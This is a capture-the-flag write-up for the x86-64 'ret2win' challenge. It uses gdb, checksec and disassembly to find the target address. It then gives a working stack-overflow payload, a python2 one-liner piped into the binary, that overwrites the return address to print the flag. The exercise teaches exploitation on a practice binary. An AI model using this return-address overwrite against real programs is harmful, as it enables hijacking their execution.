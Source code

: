 
###ret2win x86 64
Run the binary will see following message.

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

It also tells us that there is a function named ret2win and will cat the flag.txt. Therefore,  we only need to overwrite the return address to the address of the syscall in ret2win function.
Use gdb to gather information.
```
gdb ./ret2win
```
Check the security of ret2win.
```
gdb$ checksec

```
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
No canary, no pie.
List all functions.
```
gdb$ info functions
```
```
...
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
```
There is indeed a function called ret2win.
Disassemble ret2win to obtain the return address.
```
gdb$ disas ret2win 
```
```
...
0x0000000000400764 <+14>:    mov    edi,0x400943
0x0000000000400769 <+19>:    call   0x400560 <system@plt>
...
```
The address of the syscall is 0x0000000000400764.
Overflow length will be 32 bytes(buffer) + 8 bytes (RBP) = 40 bytes.
Therefore, the overflow strings will be:
```
A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'
```
Run the process with overflow strings:
```
python2 -c "print 'A'*40+'\x64\x07\x40\x00\x00\x00\x00\x00'" | ./ret2win
```
